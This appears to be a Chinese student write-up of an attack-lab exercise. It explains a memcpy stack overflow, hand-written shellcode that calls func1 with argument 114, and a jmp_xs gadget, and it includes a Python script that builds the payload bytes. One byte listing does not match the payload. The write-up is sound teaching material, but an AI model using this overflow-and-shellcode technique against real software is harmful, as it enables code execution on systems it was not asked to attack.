 同时我们可以画出 func 函数的栈区模型图：

```stack
                                       +-----------------+
                                       |  return address |
                                       +-----------------+
                                       |     old ebp     |
                              ebp ---> +-----------------+
                                       |                 |
                              		   |                 |
                                       |                 |
                                       |     buffer      |
                 rsi = ebp - 0x20 ---> +-----------------+     
                                       |                 |
                                       |                 |
                 esp = ebp - 0x30 ---> +-----------------+
```

从 c 代码上看，本题和上一题一样调用了危险的 memcpy 函数所以 func 函数会成为我们栈溢出攻击的主要对象，同时要求我们调用 func1 函数并且保证参数为114，同样的我们找不到一个位置来将 rdi 转化成 114。同时由于 func1 的输入通过一个定义在栈上的 buffer 输出，而这个 buffer 又需要通过 rbp 定位。而又由于栈随机化的特点，我们无从得知一个可以访问的栈区地址，所以利用栈溢出时无从确定如何在存储 old rbp 的位置填入什么内容，所以会导致内存访问错误。（此处关闭栈随机化，并运行一次之后记住 old rbp 的值也是在理论上可行的，但是不优雅）

但是，如果不能取巧的话，用最笨的办法可以做到吗？我们自己写一个如下的代码并且通过栈溢出让程序执行这段代码不就可以了吗？

```assembly
	<unknown_address>:	     fe 0f 1e fa            endbr64
	<unknown_address+0x4>:   bf 72 00 00 00         mov     0x72, %edi
	<unknown_address+0x9>:   48 b8 16 12 40 00 00   mov     0x401216, %rax
	<unknown_address+0x10>:  00 00 00        
	<unknown_address+0x13>:  ff d0                  call    *%rax
```

注意，此处没有使用 call 401216，原因是当把绝对地址转化为 call 的机器码的时候要计算当前 rip 位置与目标位置的偏移量，又由于栈随机化的特性（关掉了当我没说），我们无从得知这段写在栈上的代码会在何处被执行，所以我们必须使用一个寄存器来存这个绝对地址，并使用 call 这个寄存器的方式实现间接调用。

同时，我们还要解决一个问题，因为栈随机化（关掉了当我没说，~~欸这话说了几次了？~~），所以我们无法直接通过改变 return address 到我们写的这段代码上。但是我们刚好发现有一个神奇的 jmp_xs 函数，它可以调用了一个 saved_rsp + 0x10 位置的代码，刚刚好 saved_rsp 在 func 函数中被保存过，又刚刚好我们的 buffer 的起始位置就是 saved_rsp + 0x10。至此，我们的问题得到解决，只要改变 return address 到 jmp_xs 函数上并且在 buffer 的最开始输入将以上代码的机器码写入即可。

- **解决方案**：

```python
machine_ins = b"\xf3\x0f\x1e\xfa\xbf\x72\x00\x00\x00\x48\xb8\x16\x12\x40\x00\x00\x00\x00\x00\xff\xd0"
padding = b"\x00" * 19
return_address = b"\x34\x13\x40\x00\x00\x00\x00\x00" # 对应 jmp_xs 函数的起始位置
payload = machine_ins + padding + return_address
with open("ans.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

- **结果**：

![problem3_AC](./imgs/problem3_result.png)
